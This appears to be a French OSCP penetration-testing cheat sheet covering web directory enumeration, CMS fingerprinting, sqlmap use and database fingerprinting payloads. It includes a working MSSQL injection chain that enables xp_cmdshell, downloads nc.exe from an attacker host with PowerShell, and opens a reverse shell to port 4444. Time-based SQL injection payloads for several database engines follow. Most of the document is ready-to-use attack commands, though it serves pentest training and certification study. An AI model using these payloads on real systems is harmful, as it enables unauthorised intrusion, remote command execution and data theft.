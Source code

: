 <img src="https://github.com/florianges/Simple-OSCP-cheat-sheet/assets/64069514/6ada07ef-1fa7-4bad-83ff-78d636d8a6b5" height="180">

## Énumération des pages web :
dirb http://[IP] -X .php,.html,.txt  
gobuster –url [IP] dir –wordlist /usr/share/wordlists/dirb/big.txt -x php,txt,html  
## Identification de CMS :
whatweb [URL]  
python3 cmseek.py -u [URL]  
## Recherche des paramettres GET :
wfuzz --hh=[SIZE] -w [WORDLIST] [URL].php?[PARAM_NAME]=test  
## Recherche des fichiers backup :
dirb http://[fichier a tester] /usr/share/wordlists/dirb/mutations_common.txt -t
## Injection SQL :
sqlmap -u [URL] (--dbs / --tables -D [DATABASE] / --columns -D [DATABASE] -T [TABLENAME])  
sqlmap -r [FILE] (--dbs / --tables -D [DATABASE] / --columns -D [DATABASE] -T [TABLENAME])   

**commande injection in MSQL:**  
admin' UNION SELECT 1,2,3,4,5; EXEC sp_configure 'show advanced options', 1--+  
admin' UNION SELECT 1,2,3,4,5; RECONFIGURE--+  
admin' UNION SELECT 1,2,3,4,5; EXEC sp_configure 'xp_cmdshell', 1--+  
admin' UNION SELECT 1,2,3,4,5; RECONFIGURE--+  
EXEC xp_cmdshell 'powershell.exe wget http://[IP]/nc.exe -OutFile c:\\Users\Public\\nc.exe'  
EXEC xp_cmdshell 'c:\\Users\Public\\nc.exe -e cmd.exe [IP] 4444'  
  
### Detection de DB: 
**Dtection de DB (Union select)**  
select @@version; ==> db mysql ou mssql microsoft  
select version(); ==> db postgress  
select sql from sqlite_master; ==> db sqlite  
select versionnumber from sysibm.sysversions; ==> db2 IBM  
select version from v$instance; ==> db oracle  
  
**Detection de DB (Time Based)**  
OR SLEEP(5) ==> db mysql  
waitfor delay '00:00:05'​ ==> mssql microsoft  
or pg_sleep(5) ==> db postgress  
OR 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2)))) ==> db sqlite  
OR 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10) ==> db Oracle  
